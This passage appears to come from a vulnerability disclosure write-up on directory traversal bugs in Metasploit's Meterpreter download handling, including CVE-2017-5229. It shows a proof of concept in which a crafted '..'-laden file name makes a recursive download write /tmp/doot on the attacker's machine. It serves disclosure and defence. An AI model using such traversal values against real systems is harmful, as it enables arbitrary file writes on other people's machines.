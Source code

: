 ```text
    C:\Users\Justin\Desktop\foob2.txt (1 bytes)
    c:\..\..\..\..\..\..\..\..\..\..\..\..\..\..\tmp\doot

```

Trigger the bug by performing a recursive globbed download:

```text
meterpreter > download -r c:/Users/Justin/Desktop/foo*txt
Downloading 3 files...
[*] downloading: C:\Users\Justin\Desktop\foob1.txt -> C:/Users/Justin/Desktop/foob1.txt
[*] download   : C:\Users\Justin\Desktop\foob1.txt -> C:/Users/Justin/Desktop/foob1.txt
[*] downloading: C:\Users\Justin\Desktop\foob2.txt -> C:/Users/Justin/Desktop/foob2.txt
[*] download   : C:\Users\Justin\Desktop\foob2.txt -> C:/Users/Justin/Desktop/foob2.txt
[*] downloading: c:\..\..\..\..\..\..\..\..\..\..\..\..\..\..\tmp\doot -> c:/../../../../../../../../../../../../../../tmp/doot
[*] download   : c:\..\..\..\..\..\..\..\..\..\..\..\..\..\..\tmp\doot -> c:/../../../../../../../../../../../../../../tmp/doot
```

`/tmp/doot` now exists:

```text
meterpreter > background
[*] Backgrounding session 1...
msf exploit(handler) > cat /tmp/doot
[*] exec: cat /tmp/doot

doot doot

```

CVE-2017-5229 Rapid7 Metasploit Meterpreter extapi `Clipboard.parse_dump()` Directory Traversal
-----------------------------------------------------------------------------------------------

* Public disclosure date: 8 Feb 2017
* Vendor advisory: <https://community.rapid7.com/community/infosec/blog/2017/03/01/multiple-vulnerabilities-affecting-four-rapid7-products>
* Affected versions: 4.13.20 and prior

Metasploit's
`Rex::Post::Meterpreter::Ui::Console::CommandDispatcher::Extapi::Clipboard.parse_dump()`,
which is used to parse and optionally download a victim's clipboard contents
via a Meterpreter session, is vulnerable to directory traversal in the saving
of downloaded files.

For a machine running Metasploit, when it performs the download of clipboard
contents from a machine on which Meterpreter is running, Meterpreter is able to
cause Metasploit to write arbitrary files to the parent directory of the
download destination on the attacker's filesystem.

Note that simply being the Meterpreter end of a session is not enough to
exploit this bug. Metasploit must explicitly initiate a download of clipboard
contents to trigger the vulnerability.

### The bug
